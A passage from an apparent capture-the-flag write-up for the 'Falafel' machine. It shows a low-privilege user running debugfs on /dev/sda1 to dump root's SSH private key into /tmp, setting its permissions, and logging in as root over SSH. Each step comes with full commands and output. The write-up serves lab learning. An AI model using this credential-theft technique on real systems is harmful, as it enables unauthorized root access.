 From the output of this command, we find that there is only one hard drive located at `/dev/sda1`. We can access this hard drive using `debugfs`, which lets us list directories and copy files, among other things. We proceed to check if the `root` user has any SSH keys by executing `ls -l /root/.ssh`. We find a private key which we can copy to `/tmp/id_rsa` using `dump`. We do this since we don't have access to the original file but will have access to the copy of the file.

{% highlight none linenos %}
yossi@falafel:~$ @@debugfs /dev/sda1@@
debugfs 1.42.13 (17-May-2015)
debugfs:  @@ls -l /root/.ssh@@
 402797   40755 (2)      0      0    4096 15-Jan-2018 02:12 .
 262241   40750 (2)      0      0    4096  5-Feb-2018 17:04 ..
 402812  100600 (1)      0      0    1679 28-Nov-2017 23:01 @@@id_rsa@@@
 402822  100644 (1)      0      0     394 28-Nov-2017 23:01 id_rsa.pub
 402824  100600 (1)      0      0     394 28-Nov-2017 23:17 authorized_keys
debugfs:  @@dump /root/.ssh/id_rsa /tmp/id_rsa@@
debugfs:  @@quit@@
yossi@falafel:~$
{% endhighlight %}

{% highlight none linenos %}
yossi@falafel:~$ @@cd /tmp@@
yossi@falafel:/tmp$ @@ls -l@@
total 4084
@@@-rw-------@@@ 1 @@@yossi@@@ @@@yossi@@@    1679 May  1 21:07 @@@id_rsa@@@
-rw-rw-r-- 1 moshe moshe 4163040 May  1 19:43 screenshot.raw
drwx------ 3 root  root     4096 May  1 19:42 systemd-private-d40e650d496c4e869d429f14c8dec8aa-systemd-timesyncd.service-vyIRsF                                                                                                         
drwx------ 2 root  root     4096 May  1 19:42 vmware-root
drwxrwxr-x 2 yossi yossi    4096 May  1 20:34 x
yossi@falafel:/tmp$ @@chmod 600 id_rsa@@
yossi@falafel:/tmp$ @@ssh -i ./id_rsa root@localhost@@
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:XPYifpo9zwt53hU1RwUWqFvOB3TlCtyA1PfM9frNWSw.
Are you sure you want to continue connecting (yes/no)? @@yes@@
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Tue May  1 20:14:09 2018 from 10.10.14.4
@@@root@@@@falafel:~# 
{% endhighlight %}
Next, we use `chmod` to change the permissions of the file to `600` as this is the appropariate permissions for SSH keys. We can then use this key to authenticate over SSH and obtian a shell as the `root` user!

<div id="extra"></div>
